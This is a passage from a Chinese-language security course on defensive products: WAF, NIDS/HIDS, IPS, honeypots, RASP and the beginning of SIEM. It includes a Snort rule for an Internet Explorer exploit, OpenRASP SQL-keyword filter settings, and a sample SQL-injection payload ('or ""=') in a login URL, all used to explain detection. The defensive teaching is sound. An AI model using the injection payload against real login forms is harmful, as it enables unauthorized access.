- 行为分析：除了针对单次请求的分析之外，WAF 还可以针对**连续的访问请求特征**进行提取和分析。为什么要这么做呢？这是因为，很多时候，我们无法准确判断单次请求是不是攻击请求，但是如果疑似的攻击请求频繁出现，我们就基本能够确定了。也就是说，一个用户不会频繁地访问同一个页面，而黑客需要对一个漏洞点发起多次尝试，才能够实现攻击的效果。 

在识别到攻击的请求之后，WAF 就可以对请求进行拦截，从而避免 Web 服务受到黑客的攻击了。 


#### 审计告警

WAF 还有另外一个重要的功能，就是为 Web 服务提供安全相关的审计和告警功能。Web安全相关的审计包括：**发生攻击的时间、路径、频次**等。通过这些信息，开发人员能够知道自己的 Web 服务面对的攻击威胁是什么样的，也就能够更好地评估威胁，完善 Web 安全防护机制。

除此之外，WAF 还能提供其他的审计能力。这是因为，WAF 能够解析出 HTTP 请求的全部内容，提供审计所需要的**全部日志字段**。这些日志可以是各个页面的访问次数、用户的访问行为和接口的响应性能等。尽管这些指标和安全没有太多关系，但是它们对于产品设计和服务质量来说都很常见，那么 WAF 就可以作为一个统计分析工具，来为你提供服务。


#### 数据保护和虚拟补丁

反向代理或者插件模式的 WAF，还能够对 HTTP 请求中的数据进行一定的处理，提供额外的数据保护功能。

最简单的，WAF 可以**加密 HTTP 响应中的 Cookie 内容**，使得 Cookie 以保密的形式存储在浏览器中。当浏览器将加密后的 Cookie 附加到 HTTP 请求中的时候，WAF 又可以进行解密。这样一来，服务端接收到的始终是明文的信息，而实际上，WAF 通过加解密为Cookie 提供了额外的保护。另外，WAF 还可以对返回内容中的手机号、身份证号等敏感字段进行统一的**打码处理**，避免因为开发的疏忽，导致这些敏感信息的泄漏。

在介绍插件漏洞的时候，我们提到了防火墙可以**提供虚拟补丁的功能**，来临时对插件漏洞进行修复。如果插件是 Web 相关的服务，那么 WAF 是不是也可以提供虚拟补丁的功能呢？当然是可以的。那 WAF 是如何提供虚拟补丁的呢？我来举个简单的例子。

在经典的 Structs 2 漏洞中，黑客是通过 Structs 2 中包含的漏洞接口发起攻击的。所以，WAF 只需要**将这些包含漏洞的接口进行封禁**，或者对请求内容中的 Structs 2 攻击特征（特定接口的异常序列化数据）进行分析拦截，就能够临时避免 Structs 2 受到已公开的漏洞攻击。之后，我们只需要对 Structs 2 进行升级再打上补丁，这样就可以下线虚拟补丁了。 


### 总结

在今天的课程中，我们主要介绍了 WAF 的工作模式和主要功能。简单来说，WAF 就是专注于 Web 安全的防火墙，它能够以透明代理、反向代理和插件的模式，运行在网络和系统的各个环节中。从功能上来说，WAF 能够解决绝大部分的 Web 安全问题，对于黑客针对Web 的攻击进行分析和拦截，同时提供额外的审计告警、数据保护等能力。

同样地，在选取 WAF 的时候，我们首先需要考虑功能的**完整性和易用性**。公司能够以较低的成本部署 WAF，并解决大部分的 Web 安全问题，这是 WAF 最关键的效果。其次，就是可配置和可维护性，对于漏过的攻击请求如何进行补充完善，对于误判的请求如何进行放行，这是我们在使用 WAF 过程中必然会遇到的问题。一个好的 WAF 产品应该提供友好的入口，供开发和运维人员对漏过和误判的规则进行维护。 


### 思考题 

任何安全产品都不可能达到 100% 的安全。你可以思考一下，在 Web 安全中，黑客能够通过哪些方式绕过 WAF 的检测和过滤呢？ 


## IDS：入侵检测系统

在前面两节课中，我们讲了防火墙和 WAF 的工作模式，以及它们是如何作为内外网的隔离设备，在网络边界进行安全防护的。

但是，无论是防火墙还是 WAF，都无法达到 100% 的防护效果。黑客总是能有很多其他的办法，来隐藏自己或者直接绕过这些保护机制。因此，我们仍然需要**对内网中的行为进行检测**，及时发现已经入侵到内网中的黑客。这就需要用到 IDS（Intrusion DetectionSystem，入侵检测系统）了。 

### 什么是 IDS

**IDS 的最终目的是检测黑客的攻击行为**。那我们应该在哪里进行检测呢？首先是在网络流量中：黑客在控制了一台服务器之后，需要进行**权限提升**，而权限提升需要黑客在内网中挖掘各个服务器存在的漏洞。因此，黑客会发起很多探测和攻击的网络请求。其次就是在服务器系统中，黑客也可以利用服务器系统或应用本身的漏洞进行权限提升，同时，黑客也会尝试在系统中留下**后门**，这些行为都是通过系统操作来完成的。

因此，根据检测内容的不同，IDS 可以分成两种类型：NIDS（Network IntrusionDetection System，网络入侵检测系统）和 HIDS（Host-based Intrusion DetectionSystem，基于主机型入侵检测系统）。 

#### NIDS：网络入侵检测系统

在讲防火墙的时候，我们提到防火墙存在盲区：防火墙只能够检测穿越网络边界的流量，如果黑客已经进入到了内网，那防火墙就没办法提供任何的安全防护了。这个时候，我们就需要使用 NIDS 了。

**NIDS 主要检测网络流量中的攻击行为**。区别于部署在网络边界的防火墙，NIDS 一般部署在内网的网络节点（路由器或交换机）中，所有的网络请求都会流经这些网络节点，所以，NIDS 基本可以获取到对应网络节点下全部的网络行为。

另外，和防火墙不同的是，**NIDS 一般不具备拦截网络请求的能力**。这也让 NIDS 能够很好地隐蔽自己，让黑客很难发现。对于防火墙和 WAF 来说，黑客总是会不断尝试各种方式来绕过这些安全产品，原因就是黑客知道自己被拦截了。因此，这些安全产品需要不断地更新规则策略对抗黑客。如果黑客都不知道 NIDS 的存在，就不会刻意地去绕过 NIDS 的检测，这也使得 NIDS 的检测能力比较稳定，不需要频繁地更新规则策略。

NIDS 是一个比较**经典的安全产品**，你可以直接使用市面上的开源工具，比如：Snort、Suricata等。这些工具也依据 CVE 库开发了完整的入侵检测规则。以 Snort 的一条检测规则为例： 

```sh
Rule Header Message alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET any
Message   msg: “BROWSER-IE Microsoft Internet Explorer CacheSize exploit attempt”;
Flow flow: to_client,established;
Detection file_data;
    content:"recordset"; offset:14; depth:9;
    content:".CacheSize"; distance:0; width:100;
    pcre:"/CacheSize\s*=\s*/";
    byte_test:10,>,0x3ffffffe,0,relative,string;
Metadata policy max-detect-ips drop, service http;
Reference reference:cve,2016-8077;
```

这个规则是用来检测 **CVE 2016-8077** 的。CVE 2016-8077 的攻击原理就是，黑客先构建一个恶意网站，如果用户使用 IE 浏览器访问了这个网站，就会被黑客控制。因此，在第一行的 Rule Header 中，定义了 NIDS 需要检测从外网 HTTP 服务返回给本地的 TCP 请求，也就是检测用户访问了一个网页并收到的返回请求。然后再 Detection 这个部分，对该漏洞的关键词进行正则匹配，也就是"/CacheSize\s*=\s*/"。这样一来，我们就能够发现，黑客通过这个 CVE 漏洞控制用户 IE 浏览器的攻击行为了。

所以，我们在使用 NIDS 的时候，只要注意**及时对规则进行维护**即可。从 Snort 的规则中，我们也可以看出，NIDS 的检测逻辑就是对请求的内容进行**正则匹配**，不具备分析上下文的能力。因此，NIDS 一般只能够对单次的攻击请求进行检测。


#### HIDS：基于主机型入侵检测系统

精明的黑客在控制了服务器之后，会尽可能避免发送大量的网络请求，以此来隐藏自己。那么，我们是不是就没办法发现黑客了呢？当然不是。无论多么精明的黑客也一定会在服务器上留下各种**痕迹**。不管是入侵的时候，通过各种 Web 漏洞执行了系统命令，还是入侵成功之后，在系统中埋下了后门，又或者是直接利用系统漏洞进行权限提升，这些操作最终都会在服务器系统上执行。因此，我们可以通过**监控各个用户在服务器系统上的行为来检测黑客的存在**。这就是 HIDS 的功能了。

HIDS 主要检测服务器系统中的攻击行为。NIDS 运行在某个网络节点之上，相当于集中式的对网络流量进行检测，但是 HIDS 运行于每一个服务器中，也就相当于对系统行为进行分布式检测。那分布式的行为处理有什么好处呢？在 NIDS 中，我们是基于少量的网络节点检测全部的网络流量。而在 HIDS 中，只需要每个服务器检测各自内部的行为，也就相当于将资源消耗分散到了每一台服务器中，这就对硬件的性能要求比较低，也就节约了公司的防护成本。

另外，HIDS 一般以 ROOT 权限运行在操作系统中。因此，HIDS 能够监控的行为更丰富，比如： 

- 执行的系统命令
- 发起和接受的网络请求
- 运行的进程、监听的端口号等
- 系统关键文件的完整性
- 其他黑客可能留下痕迹的地方 

对比于 NIDS，HIDS 的**开发难度会高**很多。主要是因为 NIDS 只需要部署在关键的网络节点上，一个公司可能也就有几百个这样的节点，而 HIDS 需要部署在公司所有的服务器中，一个公司有上万个服务器是很常见的事情。而且，我们会在日常使用中频繁改动服务器，这也使得服务器的系统环境很不统一。所以，很多公司都需要基于自己的情况自行开发HIDS。

据我了解，很多公司都会基于 Osquery来开发 HIDS。Osquery 提供的信息采集功能可以满足大部分的 HIDS 需求，我们只需要运行一句简单的 SQL 语句，就能够拿到系统的关键信息了。比如： 

```sql
SELECT name, path, pid FROM processes
```

通过这段代码，我们可以从 Osquery 中获取到当前的全部进程信息。但是，我之前在测试Osquery 的时候，发现它没办法在 Centos 5 版本的系统中运行，也就不适用于我公司的环境。最终，我只能选择基于 Go 和 C 语言，去一项一项实现各类信息采集的工作。


#### IPS：入侵防御系统

在 HIDS 和 NIDS 中，我们分别通过网络行为和服务器系统行为对黑客入侵进行检测。但是，你需要注意，它们都只是检测而已。也就是说，如果你不进行人工干预的话，黑客的入侵行为并不会受到任何影响，仍然可以持续进行。精明的黑客一定会选择**夜半三更的时候发起攻击**，等你睡觉起来，黑客早已经拿到它们想要的数据了，而你只能看着 HIDS 和 NIDS给出的一堆报警无可奈何。

这显然不是我们希望的结果。因此，我们在 NIDS 和 HIDS 中加入了拦截的能力，就成了NIPS 和 HIPS，统称为 **IPS（Intrusion Prevention System，入侵防御系统）**。IDS 和IPS 是相辅相成的，它们唯一的区别在于，IDS 强调的是检测，IPS 强调的是**拦截**。当发现了黑客的攻击行为后，IDS 会产生报警，然后公司的安全响应人员会对报警进行人工处理。IPS 同样会产生报警，不过报警的同时，IPS 会尝试对黑客的行为进行拦截，在第一时间限制攻击产生的影响范围。

IPS 的实现总体和 IDS 比较类似，只是 IDS 通常不会去修改网络节点和操作系统，而 IPS会实现额外的逻辑，对网络节点和系统内的行为进行封停，从而阻止黑客入侵。


#### 小结

为了加深你对防火墙、WAF、IDS 和 IPS 这些安全产品的理解，我整理了一个对比表格。 


### 什么是蜜罐

在 IDS 的检测机制中，我们主要是基于对系统行为和网络请求的分析，判断是否存在攻击行为。这种检测模式会存在两个主要的问题：

- 第一，分析结果总会出现漏报和误判，而这些漏报和误判，不论是对用户还是对安全人员，都会造成极大的困扰；
- 第二，分析的规则都是人工产出的，会存在滞后性。当某种新型攻击出现时，我们很可能无法及时更新 IDS 的检测规则，让 IDS 形同虚设。

那么，我们应该如何提升分析的准确性呢？对于未知的攻击，我们又该如何及时发现呢？蜜罐就是一种能满足这两点需求的入侵检测工具。

**所谓“蜜罐”，就是一台部署在内网的服务器**。这个服务器没有任何保护措施，并且提供带有漏洞的服务，就是为了吸引黑客来攻击它。蜜罐由安全人员部署在网络的各个节点中，理论上，其他开发人员都不会知道蜜罐的存在，也就不会向蜜罐发起任何请求。而黑客入侵内网后，需要对内网进行探测，如果发现蜜罐中的服务有漏洞，自然就会针对蜜罐发起攻击。因此，**蜜罐内的一切行为，都是黑客产生的**。基于蜜罐的报警和日志，我们就能够及时发现黑客的存在，并且还原出黑客的攻击行为。

蜜罐的类型主要分为两种：低交互蜜罐和高交互蜜罐。

- 所谓**低交互蜜罐，就是蜜罐内的所有服务都是模拟的，不能提供真实的服务功能**。比如，低交互蜜罐为了模拟一个弱密码的 SSH 服务，它会监听 22 端口。而黑客一旦向这个 22 端口发起 SSH 登录请求，蜜罐就会返回登录成功的响应。但是，蜜罐并没有提供真实的 SSH服务，只是模拟了一个登录成功的响应而已，所以黑客并不能通过 SSH 连接上服务器。
- **高交互蜜罐会提供一个真实的服务，而且不施加任何限制，只是用来做详细的记录而已**。还是以上面 SSH 登录为例，在高交互蜜罐中，蜜罐会开启一个真实的 SSH 服务，黑客能够通过 SSH 连入并且控制蜜罐。但是，黑客连入蜜罐后的所有行为都会被记录下来，并产生报警。而我们只需要及时处理报警赶走黑客，就可以降低蜜罐被控制后所产生的影响。

低交互蜜罐和高交互蜜罐的对比也很明显。**低交互蜜罐更安全**，因为它不提供真实的带有漏洞的服务，只是模拟服务，所以黑客无法控制蜜罐。但模拟的服务可能被黑客发觉，导致黑客**不上钩**。这个时候，高交互蜜罐对黑客更有吸引力，让我们能有更大的概率发现入侵攻击的行为。

对比于 IDS，蜜罐提供了额外的入侵检测能力，它的主要优势包括： 

- 蜜罐几乎不会产生误报 
- 蜜罐内的所有行为都是真实的黑客攻击行为，因此数据量小、价值高
- 不需要已知的攻击样本，根据黑客的行为我们甚至能够发现新的攻击方式 

当然，蜜罐也是有缺陷的。它的主要缺陷就是，入侵检测的实现非常依靠**运气**，实现的前提是必须有黑客找到蜜罐。也就是说，如果黑客进入内网后，首先发现其他带有漏洞的正常服务器，就不会进入到蜜罐中了。

蜜罐的实现比较复杂，它需要**恰到好处**地把握提供多少的交互，既能吸引黑客，又不至于产生漏洞。好在你并不需要关心它的具体实现，因为网上已经有不少成熟的开源蜜罐了，你可以直接拿来使用。如果你不知道怎么选择，也有人对这些蜜罐进行了比较系统的分析比较，你可以参考一下。


### 如何构建入侵检测体系

在了解了 IDS、IPS 和蜜罐之后，我们发现这几款入侵检测工具各有其优势和不足。因此，在实际的安全防护中，我们通常会将它们**组合起来使用**。

- 首先，蜜罐具备较高的准确率，并且能够发现未知的攻击。因此，我们可以将蜜罐中黑客的行为特征作为攻击样本的特征，输入到 IDS 和 IPS 中去。这样一来，IDS 和 IPS 就具备了根据黑客行为**自动学习和升级的能力**。
- 其次，IPS 通常是直接拦截黑客的攻击行为，来及时止损。但这样一来，黑客也会察觉到入侵检测系统的存在。因此，我们可以将 IPS 的检测拦截行为，调整为一旦检测到攻击行为，就**将行为转发到蜜罐中**。对于黑客来说，攻击行为看起来仍然是成功的，但实际上不会对系统产生任何影响，且攻击行为都被记录下来了。
- 最后，为了提升黑客发现蜜罐的概率，我们通常需要**在内网中广泛地部署蜜罐**。但是，这又增加了很多额外的硬件部署成本。因此，有的 HIDS 中会嵌入“**微蜜罐**”，就是利用服务器本身的资源实现一个小型的蜜罐服务。比如，某个部署 HIDS 的服务器中本来没有 MySQL服务，也没有监听 3306 端口，我们可以通过设置服务器，让 HIDS 监听 3306 端口并模拟一个 MySQL 服务出来。这个 MySQL 服务是 HIDS 模拟的，开发人员不会感知到，所以发起 MySQL 连接的一定是黑客。这就是“微蜜罐”。 

现在，你应该知道了，一个系统化的入侵检测系统需要依靠各个安全产品之间的相互协作，才能够实现防护能力的最大化。我总结了一个成熟的入侵检测系统的组织结构图。 


在这个入侵检测系统中，NIDS 负责对网络节点进行检测，网络中会包含部署了 HIDS 的系统和蜜罐系统。最终，我们需要通过 ELK 来统一收集各个安全产品的检测日志，实现信息同步。所有 IDS 或者 IPS 的信息都是相互关联的，我们就能够基于这个完整的信息进行**全盘的综合分析**了。


### 总结

我们详细讲解了入侵检测相关的安全产品，主要包括 IDS、IPS 和蜜罐。其中，IDS 主要基于网络或者主机行为对攻击特征进行检测；IPS 则是在 IDS 的基础之上增加了拦截攻击，限制黑客的能力；而蜜罐则是一个专门为黑客提供的陷阱，任何进入蜜罐的行为都会被当成攻击行为，供我们进行监控和分析。

基于纵深防御的原则，入侵检测同样需要各个安全产品相互补充、协同工作，来起到一个更全面的安全防护作用。比如，我们可以将蜜罐中的数据作为分析样本，供 IDS 和 IPS 提取签名和行为特征，或者将蜜罐作为 IPS 的一种拦截手段，使其具备更大的迷惑性等。 


### 思考题

今天我们提到，入侵检测的几款安全产品可以协同工作。你可以思考一下，我们讲过的几种安全产品（比如：防火墙、WAF 和入侵检测系统等）之间，是否也有协同工作的方式呢？ 


## RASP：Runtime Application SelfProtection

在前面的课程中，我们已经介绍了防火墙、WAF 和入侵检测。这些产品都有一个共同的特性，就是基于网络请求或者系统行为对攻击的特征进行检测，然后再采取相应的防控手段。这些安全产品基本都和应用本身**解耦**。也就是说，基本上我们不需要对应用做任何开发和改动，就能够部署这些安全产品。

尽管解耦在部署上能够节省很大的成本，但解耦同样意味着，安全产品和应用本身是通过接口、请求等形式来进行数据交换的。换一句话说，安全产品只能够看到应用输入和输出的数据，并不知道数据在应用内的流动情况。因此，这种工作模式不可避免会产生一定的**误判和漏报**。 

我们来看一个关于 **WAF 检测 SQL 注入**的例子。下面是请求代码： 

```sh
http://server.com/login?username=test&password=" or ""="
```

WAF 可能会检测到 password 参数中的 SQL 注入痕迹进行拦截。如果应用采用的是安全的 PreparedStatement 方法，那这个 SQL 注入就不会生效，也就不需要拦截。但是 WAF和应用解耦，让 **WAF 不知道应用的逻辑**，从而产生了误报。

所以，对于任何安全产品来说，能获取到的数据和信息越多，检测的能力就越强，误判和漏报的概率也就越低。因此，2012 年，Gartner 提出了 **RASP（Runtime Application SelfProtection）**的概念，就是希望将安全产品部署在应用的底层，完全站在应用的视角去发现攻击行为，从而实现更加完善的安全防护。 


### RASP 的原理

想要利用 RASP 实现更完善的安全防护，首先我们要知道，什么是 RASP？以及如何实现RASP？

RASP 的设计思路是通过**监控应用的底层**，来从根本上发现攻击行为的产生。

以 **Java 为例**，Java 应用运行在 JVM 之上。因此，JVM 就是一个底层，它能够看到所有的应用信息。我们可以通过 JavaAgent 的形式将 RASP 运行在 JVM 上，然后借助 Instrumentation技术 Hook 关键的类和方法。关键类和方法具体有哪些，你可以参照OpenRASP 的 Hook 列表。这样一来，RASP 就能关注到应用安全相关的信息和调用了。 


同样的原理，在 PHP 中，我们可以通过 PHP 扩展库来实现 RASP；在.Net 中，我们可以通过 HostingStartup 来实现 RASP。

如果你想要研究 RASP 产品，那我推荐你使用百度的OpenRASP。因为 OpenRASP 在开源市场中认可度比较高，也是目前各个公司用来研究 RASP 产品的一个主要对象。

> 关于 OpenRASP 的内容，补充链接如下：
>
> - 百度安全的OpenRASP项目，究竟是什么？：https://www.freebuf.com/articles/web/164413.html
> - github：https://github.com/baidu/openrasp


### RASP 的优势和劣势

我们经常会将 RASP 和 WAF 拿来作比较，因为它们主要关注的都是应用相关的 Web 安全问题。那么**对比 WAF**，RASP 有哪些优势和劣势呢？

首先我们来看**优势**。

- 在开头我们就提到了，RASP 对比于 WAF 最大的优势在于 RASP 运行在应用的底层，从而能够知道应用运行时的上下文（比如：用户、代码逻辑、SQL 语句等）。在 Web 安全中，我们针对 Web 安全的攻击原理进行过总结：SQL 注入、反序列化等漏洞其实都是通过输入数据，篡改应用的正常逻辑实现的攻击。 
- 对于 WAF 来说，它只能够判断出输入的数据“可能”会篡改应用的正常逻辑，因此 WAF的拦截决策都来源于这个可能性。而对于 RASP 来说，它知道应用的正常逻辑是什么，也知道应用接收输入后实际的逻辑是什么，如果实际逻辑和正常逻辑不一致，就必然发生了攻击。基于这种检测方式，RASP 基本不会产生误报或者漏报。

#### 优势：OpenRASP 防止 SQL 注入

我们以 OpenRASP 防止 SQL 注入的 检测逻辑为例，来看一下 RASP 是如何进行检测的。算法描述如下： 

```java
// SQL注入算法#1 一匹配用户输入
// 1. 用户输入长度至少 8
// 2. 用户输入至少包含一个SQL关键词 – 即pre_filter，[默认关闭]
// 3. 用户输入完整的出现在SQL语句中，且会导致SQL语句逻辑发生变化
sql_userinput: {
    name:       '算法1 –用户输入匹配算法',
    action:     'block ' ,
    min_length: 8,
    pre_filter: 'select|file|from | ; ',
    pre_enable: false,
    anti_detect_filter: 'add |all|alter|analyze|and |any |as' ,
    anti_detect_enable: true,
    lcs_search: false,
    
    // 是否允许数据库管理器 – 前端直接提交SQL语句
    allow_full: true
},

```

第 1 步和第 2 步很好理解，都是 SQL 注入的基本特征。那第 3 步中的“导致 SQL 语句逻辑发生变化”，OpenRASP 要如何去识别呢？假设用户的输入是万能密码"or""="，那么，应用实际执行的 SQL 语句就是：

`SELECT * FROM Users WHERE Username = "" AND Password = ""or""=""`

在这个 SQL 语句中，最后的几个字符都是用户的输入。为了检测语句逻辑的变化，OpenRASP 将这个 SQL 语句进行了 **Token 化**。所谓“Token 化”，就是对 SQL 语句中 的关键词进行拆解，拆解后分别是：SELECT、 *、FROM、Users、WHERE、Username、=、""、AND、Password、=、""、or、""、=、""。我们能够清楚的看到，用户的输入""or ""=""占据了 5 个 Token。而正常情况下，用户的输入应该只占据 1 个Token。因此，**只要用户的输入大于 1 个 Token，就说明 SQL 语句逻辑存在变化**，我们就可以断定存在 SQL 注入了。


#### 优势：RASP 够防范未知的攻击

其次，**RASP 能够防范未知的攻击**。对于 SQL 注入来说，它的注入点可以是某个 GET 参数、某个 POST 的 Body、某个 Header 字段等，具体的攻击方式也多种多样：盲注、基于Insert 的注入等。

WAF 的检测规则是一个一个去覆盖这些攻击点和攻击方式。如果黑客发现了某个新的攻击点或者使用了新的攻击方式，WAF 根本无法检测出来。

对于 RASP 来说，它实际上不关注具体的攻击点和攻击方式是什么，因为 SQL 注入攻击，最终都会使 **SQL 语句 Token 化后的长度发生改变**。因此，RASP 只需要**判断执行的 SQL语句 Token 化后的长度即可**。所以我才说，RASP 能够有效地防御未知的攻击。


#### 优势：RASP 基本不用维护规则

最后，我认为 RASP 还有一个比较特别的好处，就是基本不用维护规则。

我前面讲过的各类安全产品：防火墙、WAF 和入侵检测，它们的本质都是检测攻击行为。而这些安全产品的检测方式不论是签名匹配、正则匹配还是行为分析，都包含了大量的规则和算法。这些规则和算法带来的最大问题，就是**针对每一家公司我们都需要制定一套单独的规则和算法**。因为每家公司的应用和网络环境都不一样，面临的攻击也不一样。

随着公司的发展以及黑客的对抗升级，我们还需要不停地更新和维护这套规则和算法，这就带来了**极大的运营成本**。而对于 RASP 来说，它当然也需要规则和算法来支持，但是它的规则和算法相对统一。

比如，在 Java 中，不论你是使用的哪种开发框架，最终执行 SQL 语句的都是**底层的 JDBC插件**，在这个层次上，攻击的特征都是一致的。因此，**RASP 基本只需要维护一套统一的规则和策略**，就能够适用于所有的公司和应用了。所以，百度在 OpenRASP 覆盖面说明中敢说“若发现不能拦截的攻击或者误报的情况，请联系我们”，就是这个原因。开源的WAF 只会提供一个维护规则的入口，而不会帮助你进行维护。 

尽管 RASP 存在许多明显的优势，但是目前来看，国内对于 RASP 的实际落地，普遍还在**试验阶段**，我很少见到 RASP 在公司范围内大规模推广落地案例。这是为什么呢？要搞清楚这个问题，就不得不提到 RASP 的劣势了。RASP 的劣势主要有三方面，下面，我们一一来看。


#### 劣势：推广难度高

我认为最大的劣势在于推广难度上。尽管我们一直在提安全，但是事实上，大部分的**开发人员并不认可安全，**他们也不接受任何可能对应用产生影响的安全产品。这是因为，这些安全产品增加了检测的逻辑，就必然会影响应用的正常运行。而且，WAF 等拦截性安全产品产生的误报，会让正常的业务请求受到影响。

但是，防火墙、WAF 和入侵检测，实际上都已经在各个公司很好地落地了。我认为这都归功于**安全人员或者运维人员的“强推”**。

在部署一款 WAF 的过程中，实际上是不需要开发人员参与的，运维人员在网关上直接部署就可以了。而 RASP 不一样，RASP 和应用强耦合，它需要由**开发人员去部署**。比如，Java 中需要通过命令 `java -javaagent:rasp.jar -jar app.jar` 来启动 RASP，其中的参数 javaagent  只能由开发人员进行配置。因此，RASP 的推广实际上是**安全意识**的推广，所以难度也比较高。


#### 劣势：解决方案并不通用

其次，RASP 的解决方案并不通用。从语言支持上来看，目前 RASP 只在 Java、PHP和.Net 语言中具备成熟的产品。其他高级语言，如 Python 等，可能是因为没有很好的Hook 方案，所以目前仍然局限于研究阶段。

这也是 RASP **强耦合**所带来的弊端：每一种开发语言，甚至是语言下不同的开发框架，都可能会需要**一套独立的 RASP 产品**。而 WAF等安全产品，因为网络和系统都比较统一，则不受此限制。


#### 劣势：性能问题

最后，RASP 在性能问题上也备受争议。尽管目前成熟的 RASP 产品宣称它的性能影响已经低于 5%，甚至更低了，但在实际落地的过程中，确实会出现因为系统和应用的差异，而导致**性能恶化**比较严重的情况。这也是 RASP 在**兼容性不足**上所表现出来的缺陷。


### RASP 的其他功能

除了针对应用的攻击行为进行检测和拦截，和 WAF 一样，RASP 也能够提供很多额外的安全防护功能。 

毫不夸张地说，WAF 能实现的功能，RASP 都能够实现。因此，WAF 中的数据保护、虚拟补丁等功能，RASP 也都能够提供，原理也是一致的：都是通过拦截并修改 HTTP 请求和响应，在 HTTP 内容中加入额外的安全特性，比如 Cookie 加密。

除此之外，因为 RASP 部署于应用的底层，知道应用的全部信息，所以它本身可以对应用的安全性进行**评估**。最简单的评估问题如下： 

- 是否使用 ROOT 权限运行了应用；
- 在连接数据库的时候，是否使用了弱密码；
- 使用了哪些插件，插件是否包含漏洞。 

RASP 可以在应用运行的过程中对这些高危的进程操作进行检测，从而提醒你采取更安全的实现方式。


### 总结

RASP 的功能确实能给应用的安全性带来一个**质的提升**。对比低耦合的 WAF 等安全产品，RASP 的准确率、覆盖度都有较大优势。但是，正因为耦合度过高，RASP 部署起来比较麻烦，实际推广落地的时候，经常出现开发人员不配合的情况。总的来说，推广的难度属于管理上的问题，需要你想办法说服开发人员。单纯从安全角度上来说，我认为 RASP 是一款提升应用安全性的最佳安全产品。

另外，我认为在实际工作中，我们也可以将 RASP 和其他安全产品进行适当**组合**，以达到取长补短的目的。比如说，RASP 推广比较难，我们可以只作局部的部署。这些局部的部署可以当作 WAF 的样本数据来源，只要 RASP 在底层发现了攻击行为，就将相应的表层特征输出到 WAF。这样一来，我们就可以将 RASP 在局部上的防御能力拓展到整体的 WAF上，从而实现全面的安全防护提升。 


### 思考题

在这一讲中，我们只是以 SQL 注入为例，讲述了 RASP 是如何进行攻击检测的。你可以思考一下，对于其他的攻击方式，如反序列化漏洞、命令执行和 SSRF 等，RASP 又该如何防护呢？你可以先学习一下 OpenRASP 的说明文档，之后再来思考这个问题。 


## SIEM：安全信息和事件管理

在前面的课程中，我们介绍了一些常见的安全产品。但实际上，解决公司的安全问题，并不是部署了这些安全产品就万事大吉了。安全防护的过程是一个与黑客持续进行**攻防对抗**的过程，黑客总是能够发现新的方法，绕过安全产品的防护，实施攻击。

如果黑客绕过安全产品，我们应该如何及时发现黑客的攻击呢？具体来说，我们应该如何对黑客的攻击路径和攻击产生的影响进行统计分析？以及在发现黑客的攻击之后，我们要如何提取攻击特征，补充安全产品的检测规则呢？这些都是我们需要**持续关注**的事情。因此，我们常说“建立一个安全体系很简单，运营好一个安全体系却很复杂”。 

我们经常会使用 **SIEM（Security Information and Event Management，安全信息和事件管理）**，来帮助我们**运营一个安全体系**。通过 SIEM，我们可以将散落于各个系统、设备和安全产品中的日志进行汇总和梳理，快速串联出黑客的完整攻击路径，更高效地完成安全体系运营的工作。

那 SIEM 究竟是如何高效运营安全体系的呢？下面，我们一起来看。

### SIEM 有哪些功能

我们先来说一下 SEIM 是什么。简单来说，**SIEM 就是一个基于各类日志，提供安全运营和管理能力的统一平台**。基于这个定义，我们来总结一下 SIEM 的功能。

- 首先是**收集日志**。对 SIEM 来说，需要收集的日志来源于操作系统、路由器、数据库等业务设备，防火墙、WAF、IDS 等安全产品，以及业务前后端本身。
- 在收集到大量的日志之后，SIEM 会对数据进行**分析统计**，将海量的日志进行筛选和总结，给予安全运营人员最精简的结果，提高分析效率。经过数据分析之后，安全运营人员就能够快速发现并处理各类安全事件了。
- 最后，SIEM 还需要**提供完整的运营流程**。比如，通过工单功能完成安全事件的管理，通过报表追踪各安全产品产生的报警、发起的安全事件、数据的流动情况等，清晰地表现出公司的安全现状和能力。

没有 SIEM 平台之前，安全运营人员需要对这些安全事件和报警进行人工处理和记录，不仅效率较低而且容易出现纰漏。有了 SIEM 平台之后，我们就可以将**整个运营工作线上化**，大大提升运营的效率和质量。


### SIEM 是如何落地的

不知道你有没有发现，我一直**强调“运营”**这个词。相比我们之前讲过的安全产品，SIEM更加注重运营。因此，落地 SIEM 可不仅仅是部署一款安全产品这么简单。

我们之前提到的安全产品（防火墙、WAF、IDS 等）都是以技术为导向的。换一句话说，这些安全产品效果好不好，实际上取决于技术和检测规则。只要技术实现上能够满足性能要求，规则上能够尽可能多地覆盖攻击特征、检测黑客行为、减少误伤，就很容易落地并产生收益。

但是 SIEM 不一样。我在说 SIEM 的核心功能的时候，你可能很快联想到，可以使用经典的**日志分析组件 ELK，去实现 SIEM 的各个功能**。所以你看，SIEM 其实不存在特别明显的技术挑战。

那为什么很多公司在规划做一个 SIEM 的时候，最终都“虎头蛇尾”、不了了之了呢？原因就是我们一直强调的“运营”能力不足。运营能力不足让这些公司做出来的 SIEM 空有一个架子，无法实际落地，也就无法产生应有的价值。

那么问题来了，SIEM 究竟该如何落地呢？下面，我就结合 **SIEM 落地的流程图**，带你一起分析。 


#### 制定计划

首先，当我们决定要做 SIEM 的时候，需要制定一个**长期**的计划。依据公司的安全情况，这个长期可能意味着 1-3 年的持续投入。

在部署一些成熟的安全产品（比如，防火墙、WAF 等）时，公司只需要在采购和研发时进行一次性投入，之后再花费少量的资源运维就可以了。所以，这些安全产品的落地就是发现问题、解决问题的过程。

但是，SIEM 并不是一个通用的安全产品，每个公司都需要花费大量时间磨合 SIEM 的设计、部署和运转。因此，我们需要制定长期的、体系化的落地计划。通常这个计划分三个阶段：设计阶段、建设阶段和运营阶段。在 SIEM 启动之前，我们就要预估：每个阶段投入的人力、时间、成本；每个阶段的需求和预期产出；每个阶段按月或者按季度的时间节点等。这些确定下来之后，还要公司同步确认才行。


#### 设计阶段

计划制定完成之后，就进入设计阶段了。在设计阶段，我们首先需要**明确公司对 SIEM 的需求**，或者说，我们希望 SIEM 能够解决哪些问题。这些问题和需求都是从哪里产生的呢？其实，在建设安全体系，引入了部分的安全产品之后，我们在安全运营上会感受到很多痛点。比较常见的，由于安全设备过多，我们在实际分析日志的时候，需要一个一个登录这些设备查找日志，这大大降低了我们的工作效率。

这个时候，很多人会提出搭建一个 SIEM 平台来解决这些**痛点**。但实际上，这些痛点都是很宽泛的需求。这些需求没有很清晰的定位出，SIEM 平台究竟需要收集哪些设备上的哪些日志，我们又应该以什么样的格式存储和整合这些日志。

所以，为了给 SIEM 一个清晰的定位，我们需要总结出一份详细的**需求列表**。我认为可以从三方面来总结。


